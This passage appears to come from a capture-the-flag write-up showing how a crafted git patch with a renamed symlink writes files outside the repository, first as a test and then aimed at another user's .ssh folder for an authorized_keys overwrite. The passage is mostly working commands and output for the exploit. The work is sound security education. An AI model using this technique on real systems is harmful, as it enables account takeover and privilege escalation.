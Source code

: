 ```
cbrown@snoopy:/dev/shm/poc$ ln -s /home/cbrown/ symlink
cbrown@snoopy:/dev/shm/poc$ git add symlink
cbrown@snoopy:/dev/shm/poc$ git commit -m "add symlink"
[main (root-commit) 6eba49c] add symlink
 1 file changed, 1 insertion(+)
 create mode 120000 symlink

```

I’ll create the `patch` file, using the data from the test, modifying it slightly:

```
diff --git a/symlink b/renamed-symlink
similarity index 100%
rename from symlink
rename to renamed-symlink
--
diff --git /dev/null b/renamed-symlink/0xdf
new file mode 100644
index 0000000..039727e
--- /dev/null
+++ b/renamed-symlink/0xdf
@@ -0,0 +1,1 @@
+busted

```

The only change is from `create-me` to `0xdf` in two places. `git apply patch` will run it, and the new file exists:

```
cbrown@snoopy:/dev/shm/poc$ git apply patch
cbrown@snoopy:/dev/shm/poc$ cat ~/0xdf
busted

```

With `sudo`, I can do this exploit as sbrown. The first thing I’ll try is overwriting their `authorized_keys` file. I’ll start a brand new repo, this time adding a symlink pointing to sbrown’s `.ssh` folder:

```
cbrown@snoopy:/dev/shm$ mkdir ssh
cbrown@snoopy:/dev/shm$ cd ssh/
cbrown@snoopy:/dev/shm/ssh$ git init
Initialized empty Git repository in /dev/shm/ssh/.git/
cbrown@snoopy:/dev/shm/ssh$ ln -s /home/sbrown/.ssh symlink
cbrown@snoopy:/dev/shm/ssh$ git add symlink
cbrown@snoopy:/dev/shm/ssh$ git commit -m "add symlink"
[main (root-commit) 4f69273] add symlink
 1 file changed, 1 insertion(+)
 create mode 120000 symlink

```
